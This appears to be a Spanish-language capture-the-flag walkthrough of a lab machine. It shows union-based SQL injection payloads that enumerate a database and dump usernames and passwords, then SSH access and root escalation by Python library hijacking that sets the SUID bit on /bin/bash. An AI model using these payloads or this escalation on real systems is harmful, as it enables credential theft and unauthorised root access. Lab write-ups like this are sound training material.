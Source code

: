 Hacemos el escaneo de nmap:
![[Pasted image 20240607140030.png]]
Y esto corre por el puerto 80:
![[Pasted image 20240607135434.png]]
Si ponemos una comilla, nos pone que no está autorizado, por lo que podemos intentar una inyección SQL:
![[Pasted image 20240607135514.png]]
Vamos a probar cuantas columnas hay, donde tras ir probando por 1,2 y 3, vemos que hay 3:
```bash
' union select 1,2,3-- -
```
![[Pasted image 20240607135606.png]]
Si queremos ver el nombre de la base de datos exitente, usamos la siguiente query:
```bash
' union select 1,database(),3-- -
```
![[Pasted image 20240607135717.png]]
Ahora, si queremos obtener el nombre de la tabla, usamos la siguiente query:
```bash
' union select 1,table_name,3 from information_schema.tables where table_schema='testdb'-- -
```
![[Pasted image 20240607135812.png]]
Para ver las columnas de la tabla, usamos la siguiente query:
```bash
' union select 1,column_name,3 from information_schema.columns where table_schema='testdb' and table_name='users'-- -
```
![[Pasted image 20240607135909.png]]
Y ahora para ver los registros, usamos la siguiente query:
```bash
' union select 1,group_concat(username,':',password),3 from testdb.users-- -
```
![[Pasted image 20240607135950.png]]
Hemos encontrado las siguientes credenciales:
```bash
kvzlx:kvzlxpassword 
```
Y entramos por ssh:
![[Pasted image 20240607140126.png]]
Si ejecutamos el siguiente comando, nos encontramos con que podemos ejecutar un script de python como root:
![[Pasted image 20240607140156.png]]
Y para la escalada hay que explotar un python library hijacking, donde crearemos un archivo llamado psutil.py que será llamado cuando ejecutemos como root el otro script, y así ejecutamos el comando chmod u+s /bin/bash para cambiarle el permiso a la bash:
![[Pasted image 20240607140403.png]]
Ejecutamos el script:
```python
sudo /usr/bin/python3 /home/kvzlx/system_info.py
```
![[Pasted image 20240607140454.png]]